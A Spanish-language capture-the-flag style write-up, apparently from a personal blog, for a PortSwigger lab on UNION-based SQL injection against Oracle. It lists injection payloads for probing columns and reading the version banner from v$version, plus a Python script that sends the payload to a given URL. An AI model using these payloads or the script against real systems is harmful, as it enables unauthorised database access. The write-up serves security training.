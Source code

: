 ```yaml
---
title: "07 SQL injection attack, querying the database type and version on Oracle"
collection: publications
category: portswigger
permalink: publications/SQLi/07_SQL injection attack, querying the database type and version on Oracle
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en Oracle.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, querying the database type and version on Oracle'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-7/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-7/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD oracle necesitamos llamar a la tabla DUAL

```javascript
' UNION SELECT 'A', NULL FROM DUAL--
' UNION SELECT NULL, 'A' FROM DUAL-- 
' UNION SELECT 'A', 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-7/campos string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD de Oracle probamos averiguar la versión de Oracle

![DB version]({{site.url}}/images/SQLi/sqli-7/DB version.png)

```javascript
' UNION SELECT banner, NULL FROM v$version--
```

![version]({{site.url}}/images/SQLi/sqli-7/version.png)

# Resuelto

![Aprobado]({{site.url}}images/SQLi/sqli-7/aprobado.png)

# Codigo Python
```javascript
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_version(url):
    path = '/filter?category=Pets'
    sql_payload = "' UNION SELECT banner, NULL from v$version--"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    if "Oracle Database" in res:
        print("[+] Found the database version.")
        soup = BeautifulSoup(res, 'html.parser')
        version = soup.find(string=re.compile(r'.*Oracle\sDatabase.*'))
        print("[+] The Oracle database version is: "+ version)
        return True
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s wwww.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of the database...")
    if not exploit_sqli_version(url):
        print("[-] Unable to dump the database version.")
```